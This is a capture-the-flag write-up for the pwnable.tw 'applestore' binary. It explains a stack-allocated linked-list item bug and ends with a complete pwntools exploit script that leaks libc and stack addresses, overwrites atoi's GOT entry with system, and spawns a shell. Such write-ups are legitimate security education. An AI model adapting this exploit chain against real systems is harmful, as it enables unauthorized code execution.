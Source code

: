 # 📌 **applestore - pwnable.tw**  

## 🔹 **Vulnerability Analysis**  
Check Security Protections
``` bash
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8046000)
    RUNPATH:    b'.'
    Stripped:   No
```

## Program Overview
The program is a shopping cart application with the following five main functions:
1. **Add Item**: Adds a new item to the cart.
2. **Delete Item**: Removes an item from the cart.
3. **Display Bought Items**: Lists all items currently in the cart.
4. **List Available Products**: Displays available products for purchase.
5. **Checkout**: Processes the cart for checkout (not officially supported).

The cart items are stored using a doubly linked list, where each newly added item is appended to the tail of the list. The structure of an item is as follows:
```c
typedef struct item {
    char* name;
    int price;
    struct item *next_item;
    struct item *prev_item;
} item;
```
# Vulnerability Analysis

The vulnerability lies in the **checkout function**. Here's how it works:

1. The function checks if the total price of all items in the cart equals **7174**.
2. If the condition is met, it adds a new item (e.g., "iPhone 8") to the cart.
3. However, the new item is **added differently** compared to the `add item` function:
   - In the `add item` function, items are allocated on the **heap**.
   - In the `checkout` function, the new item is created on the **stack**.
   - The stack address corresponds to the input buffer used in the `handler` function and the input buffer of the `cart` function.

This inconsistency creates an opportunity for exploitation.

---

# Exploitation Plan

## Step 1: Prepare the Cart
1. Add items to the cart such that their total price sums up to **7174**.
2. This will trigger the `checkout` function, causing it to add a new item to the cart with a **stack address** in the doubly linked list.

## Step 2: Leak a Libc Address
1. Send the input `"0x804b033"` to the `handler` function's input buffer.
   - The `atoi` function will convert `0x33` (stopping at the first non-numeric character) to the integer `3`.
   - The value `3` corresponds to the **delete item** function (third choice in the menu).
2. When the item is deleted, the program prints the `name` of the deleted item.
   - In this case, the `name` corresponds to the address `0x804b033`, which points to an entry in the **GOT (Global Offset Table)**.
   - This leaks the address of the `__libc_start_main` function, allowing us to calculate the base address of `libc`.

## Step 3: Leak a Stack Address
1. Use the same method as above, but this time leverage the `cart` function.
   - The previous method leaks the address pointed to by `environ`, which has a **constant offset** to the stack.
   - This allows us to compute the **saved EBP pointer** in the `delete` function.

## Step 4: Overwrite `atoi` with `system`
1. Compute the offset of the **saved EBP** in the `delete` function from the leaked stack addr.
2. Overwrite the `atoi` GOT entry with the address of `system` since the relro check is `Partial RELRO`.
   - This is the easiest way to gain control, as the program uses `atoi` to convert user input into integers for menu choices.
   - After overwriting `atoi`, any input passed to it will be interpreted as a command to `system`.

---

We can use the following Python program to determine the list of items required to trigger the checkout vulnerability. The program recursively searches for a combination of items whose total price equals the target value (in this case, 7174).
``` python
In [21]: def f(index, items_prices , target_number, used) :
    ...:     if target_number == 0 :
    ...:         return True
    ...:     if index >= len(items_prices) :
    ...:         return False
    ...:     flag = 0
    ...:     if target_number >= items_prices[index] :
    ...:         used.append(items_prices[index])
    ...:         flag = f(index, l , target_number - items_prices[index], used)
    ...:         if not flag :
    ...:             used.pop()
    ...:     if not flag :
    ...:         return f(index+1, items_prices, target_number, used)
    ...:     return flag
```
    Args:
        index (int): Current index in the items_prices list.
        items_prices (list): List of available item prices.
        target_number (int): The target total price. (7174)
        used (list): List to store the selected items.

    Returns:
        bool: True if a valid combination is found, otherwise False.
        
## 🔹 **Exploit Code** 
        
``` python
#! /usr/bin/python3.10
from pwn import *

p = process("./applestore_patched")
# p = remote("chall.pwnable.tw", 10104)
libc_elf = ELF("./libc_32.so.6")
prog_elf = ELF("./applestore_patched")

l = [199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 499, 499, 499, 499, 499, 499, 399]
_map = {199: "1", 499: "3", 399: "4"}

for _ in l:
    p.sendlineafter("> ", "2")
    p.sendlineafter("Device Number> ", _map[_])

# pause()
p.sendlineafter("> ", "5")
p.sendlineafter("Let me check your cart. ok? (y/n) > ", "y")
p.sendafter("> ", p32(0x804b033, "little") + b"\x00" * 12)
p.sendlineafter("Item Number> ", "28")
p.recvuntil("Remove 28:")
libc_leak = p.recvline()[:-1]
libc_leak = int.from_bytes(libc_leak[1:5], "little")
print("libc_leak @ ", hex(libc_leak))
libc_base = libc_leak - libc_elf.symbols["__libc_start_main"]
libc_elf.address = libc_base

atoi_got_addr = prog_elf.got["atoi"]
system_addr = libc_elf.symbols["system"]
environ = libc_elf.symbols["environ"]

p.sendafter("> ", p32(0x804b034, "little") + b"\x00" * 12)
p.sendlineafter("Let me check your cart. ok? (y/n) > ", b"y\x00" + p32(environ))
p.recvuntil("27: ")
stack_leak = int.from_bytes(p.recv(4), "little")
print("stack_leak @ ", hex(stack_leak))

delete_saved_ebp = stack_leak - 0x104
print("saved ebp ptr @ ", hex(delete_saved_ebp))

p.sendafter("> ", p32(0x804b033, "little") + b"\x00" * 4 + p32(delete_saved_ebp - 0x0c) + p32(atoi_got_addr + 0x22))
p.sendlineafter("Item Number> ", "28")
p.recvuntil("Remove 28:")

p.sendlineafter("> ", p32(system_addr) + b";sh\x00")

p.interactive()
```
